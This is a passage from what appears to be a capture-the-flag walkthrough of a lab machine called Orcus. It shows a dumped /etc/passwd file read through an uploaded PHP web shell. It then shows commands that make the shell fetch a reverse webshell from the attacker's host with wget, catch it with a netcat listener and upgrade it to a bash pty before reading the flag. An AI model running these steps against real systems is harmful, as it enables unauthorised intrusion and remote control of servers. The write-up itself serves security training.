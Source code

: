www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
bind:x:104:114::/var/cache/bind:/bin/false
postfix:x:105:115::/var/spool/postfix:/bin/false
dovecot:x:106:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:107:118:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:108:119::/var/lib/landscape:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:110:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:111:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
kippo:x:1001:27::/home/kippo:/bin/bash
statd:x:113:65534::/var/lib/nfs:/bin/false
systemd-timesync:x:114:125:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:115:126:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:116:127:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:117:128:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:100:101::/run/uuidd:/bin/false
lxd:x:118:65534::/var/lib/lxd/:/bin/false
_apt:x:119:65534::/nonexistent:/bin/false
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/bin/false
* Curl_http_done: called premature == 0
* Connection #0 to host 10.37.129.9 left intact
{% endhighlight %}

Now to get a better shell:

{% highlight bash %}
screen python -m SimpleHTTPServer
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=wget%20http://10.37.129.5:8000/php_reverse_webshell.php
sudo nc sudo nc -vnlp 443
Connection from 10.37.129.9 44708 received!
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
 00:44:17 up  2:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Orcus:/var/www$
cd /
locate flag.txt
cat /var/www/flag.txt
{% endhighlight %}

There's the first flag

## PrivEsc

